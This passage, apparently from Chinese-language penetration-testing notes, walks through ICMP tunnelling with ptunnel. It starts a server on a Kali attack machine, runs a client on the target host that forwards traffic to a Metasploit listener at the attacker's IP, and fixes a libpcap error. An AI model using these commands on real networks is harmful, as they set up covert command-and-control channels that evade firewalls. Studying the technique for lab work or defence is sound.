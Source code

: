 攻击机开启ptunnel的server  kali自带的，所以直接执行就可以

```
ptunnel 
```

![image-20231204180659967](./img/Tunnel/image-20231204180659967.png)

**2）靶机操作：**

靶机端执行client

```
./ptunnel -p 100.1.1.169 -lp 9999 -da 100.1.1.169 -dp 4444

# -p   server端的IP
# -lp  本地监听的端口（只要是这个端口接到的tcp流量，全部封装成icmp,发送到server端）
# -da -dp 告诉server端，解析后的流量转发到哪个ip和端口，这里填的是msf监听的IP和端口
```

运行可能报错

![image-20231204180954893](./img/Tunnel/image-20231204180954893.png)解决办法：

```
sudo yum install libpcap-devel
# 安装完可能版本不对
cd /usr/lib64/
ln -s libpcap.so.1.5.3 libpcap.so.0.8
```

![image-20231204181423774](./img/Tunnel/image-20231204181423774.png)
